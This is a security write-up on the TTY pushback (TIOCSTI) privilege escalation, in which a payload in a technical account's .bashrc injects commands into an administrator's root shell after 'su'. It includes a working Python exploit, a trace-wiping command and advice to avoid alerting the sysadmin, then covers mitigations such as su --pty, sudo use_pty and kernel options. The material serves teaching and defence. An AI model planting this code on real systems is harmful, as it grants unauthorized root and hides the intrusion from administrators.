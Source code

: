 ```yaml
---
title: The oldest privesc; injecting careless administrators' terminals using TTY pushback
---
```


This trick is possibly the oldest security bug that still exists today, it's been traced [as far back as 1985](https://web.archive.org/web/20031005121525/https://securitydigest.org/unix/archive/015).

It's been [discovered](https://www.openwall.com/lists/oss-security/2011/12/20/2) and [rediscovered](https://www.openwall.com/lists/oss-security/2012/11/05/8) and [re-rediscovered](https://seclists.org/oss-sec/2021/q4/43) by sysadmins, developpers and pentesters every few years for close to 4 decades now. It's been subject to [multiple](https://lore.kernel.org/kernel-hardening/1494450134.28559.2.camel@gmail.com/t/) [developper](https://lore.kernel.org/all/Y0m9l52AKmw6Yxi1@hostpad/) [battles](https://kernsec.org/pipermail/linux-security-module-archive/2017-May/001473.html), [countless](https://www.halfdog.net/Security/2012/TtyPushbackPrivilegeEscalation/) [posts](https://security.stackexchange.com/questions/136748/tty-push-back-priv-escalation), but still remains largely forgotten.

This is just another attempt at shedding light on it, for both attackers and defenders.


Why it works
============
The TIOCSTI ioctl can insert bytes in the tty's input queue. It is used to simulate terminal input.

When running ```su lowpriv_user```, by default no new pty is allocated:
![PTY stays the same](./TTYPushBack/pty_unchanged.PNG)

Therefore since we're still in the same pty, input can be sent directly *to the parent shell* to execute commands in its context.


Make it work
============
Consider this python sample and assume it's automatically being run at logon from the .bashrc of a technical account, such as postgres, to which the root user changes by typing ```su - postgres```:
```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in sys.argv[1] + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

We're sending SIGSTOP to the lowpriv shell to get the focus back to its parent, the root shell.
Then sending the characters one by one using the TIOCSTI ioctl injects them into the root shell as if they were input manually, until '\n' is sent which executes the command.

![get root or go home](./TTYPushBack/root.PNG)

And that's it, you're now root. Devilishly simple.


Always sneaking stabbing
------------------------
Running the following command will attempt to wipe most of your traces and get back to the lowpriv shell:
```cmd = ' set +o history\n' + sys.argv[1] + '\nfg\nreset\n'```

You should also wipe your payload from the .bashrc file.

Hopefully this doesn't alert the sysadmin.


Protecting against it
=====================
From su's manpage:
```
   -P, --pty
   Create a pseudo-terminal for the session. The independent terminal provides better security as the user does not share a terminal with the original session. This can be used to avoid TIOCSTI ioctl
   terminal injection and other security attacks against terminal file descriptors. The entire session can also be moved to the background (e.g., su --pty - username -c application &). If the
   pseudo-terminal is enabled, then su works as a proxy between the sessions (sync stdin and stdout).

   This feature is mostly designed for interactive sessions. If the standard input is not a terminal, but for example a pipe (e.g., echo "date" | su --pty), then the ECHO flag for the pseudo-terminal
   is disabled to avoid messy output.
```

Here's the protection in action (```fg``` has been manually inputed to return to lowpriv's shell, notice how the command was "buffered" until we came back to it):
![PTY has changed](./TTYPushBack/pty_changed.PNG)

Note that RHEL7 does not have the option, whereas RHEL8 does.

Note that the ```su``` command is not the only one affected by the bug, it's a broader problem due to the ioctl itself. From the sudoers(3) manpage:
```
    use_pty
    If set, and sudo is running in a terminal, the command will be run in a pseudo-terminal (even if no I/O logging is being done).  If the sudo process is not attached to a terminal,
    use_pty has no effect.

    A malicious program run under sudo may be capable of injecting commands into the user's terminal or running a background process that retains access to the user's terminal device even
    after the main program has finished executing.  By running the command in a separate pseudo-terminal, this attack is no longer possible.  This flag is off by default.
```

The ioctl also has been restricted for a number of years in grsecurity, under the name GRKERNSEC_HARDEN_TTY (2016?).

The Linux kernel 6.2 also has introduced an [optional mechanism](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=83efeeeb3d04) to protect against it.

Things are moving, albeit slowly, and are not defaults yet. This privesc will still be valid for the foreseeable future, don't forget it this time!

